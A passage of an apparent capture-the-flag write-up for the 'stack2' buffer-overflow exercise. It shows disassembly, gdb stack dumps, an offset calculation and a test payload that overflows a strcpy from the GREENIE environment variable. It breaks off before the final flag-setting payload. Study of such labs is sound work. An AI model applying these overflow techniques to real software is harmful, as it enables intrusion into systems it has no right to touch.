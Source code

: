 ```
0x08048501 <main+109>:	mov    eax,0x8048641
0x08048506 <main+114>:	mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:	mov    DWORD PTR [esp],eax
0x0804850d <main+121>:	call   0x80483ac <printf@plt>
0x08048512 <main+126>:	leave  
0x08048513 <main+127>:	ret
```

A higher level breakdown of this is:

- Move 0x0 into esp+0x58   <- flag to flip?
- Move our flag (esp+0x5c) into EAX
- Get hold of the string value from our env (strcpy) <- BOF vulnerability
- We then move (esp+0x58) into EAX and check if it equals '0xd0a0d0a'
- If we don't equal, we jump to main+105, which is likely our fail state
- If not, we continue and 'win'

First, let's check where our environment is loaded and stored on the stack:

```
(gdb) b *main+84
Breakpoint 1 at 0x80484e8: file stack2/stack2.c, line 22.

(gdb) x/30wx $esp
0xbffffc30:	0xbffffc48	0xbffffef7	0xb7fff8f8	0xb7f0186e
0xbffffc40:	0xb7fd7ff4	0xb7ec6165	0x41414141	0x42424242 <--- our environment variable
0xbffffc50:	0xb7fd7f00	0x08049748	0xbffffc68	0x08048358
0xbffffc60:	0xb7ff1040	0x08049748	0xbffffc98	0x08048549
0xbffffc70:	0xb7fd8304	0xb7fd7ff4	0x08048530	0xbffffc98
0xbffffc80:	0xb7ec6365	0xb7ff1040	0x00000000	0xbffffef7
0xbffffc90:	0x08048530	0x00000000	0xbffffd18	0xb7eadc76
0xbffffca0:	0x00000001	0xbffffd44

(gdb) x/wx $esp+0x58
0xbffffc88:	0x00000000   <--- flag that is used in comparison?
```

The reason I have highlighted the value above at esp+0x58, is due to a set of instructions that uses this value:

```
0x080484e4 <main+80>:	mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:	cmp    eax,0xd0a0d0a
```

Now we know which value is used during the compare, as well as our input address - we can once again find the difference between the two:

​	"0xbffffc88" - "0xbffffc48" = "0x‭40"‬ (64 again)

Let's try this out with a simple overwrite with the value of "BBBB" to make sure our offset and assumptions are correct:

```
$ export GREENIE=$(python -c 'print "A"*64 + "B"*4')
$ echo $GREENIE
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```
